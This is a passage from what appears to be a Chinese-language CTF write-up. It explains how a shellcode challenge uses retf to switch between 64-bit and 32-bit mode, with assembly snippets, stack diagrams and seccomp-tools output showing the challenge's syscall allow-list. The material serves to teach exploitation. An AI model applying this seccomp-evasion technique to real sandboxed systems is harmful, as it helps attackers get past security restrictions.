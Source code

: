 ```plain
push 0x20
push addr
retf
```

栈的结构

```plain
rsp->   00----addr----00
        0000000000000020
```

转为 32 位时

```plain
esp->   0-addr-0
        00000020
```

可以采取

```plain
to32bit:
    ; retf to 32bit
    push addr
    mov r15,0x2300000000
    add qword [rsp],r15
    retf
```

此时的栈结构

```plain
rsp->   0-addr-020000000
//也就是
esp->   0-addr-0
        00000020
```

**32 位转换为 64 位时**

直接转换即可，因为不存在 push 一个 8byte 的数了

```plain
push 0x20
push addr
retf
```

现在讲解了`retf`的一些基础知识以及在转换中的一些细节，现在我们回到题目继续看一下这道题目。

seccomp-tools

```plain
$ seccomp-tools dump ./shellcode 
---------- Shellcode ----------
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0008
 0002: 0x15 0x05 0x00 0x00000025  if (A == alarm) goto 0008
 0003: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0008
 0004: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0008
 0005: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0008
 0006: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
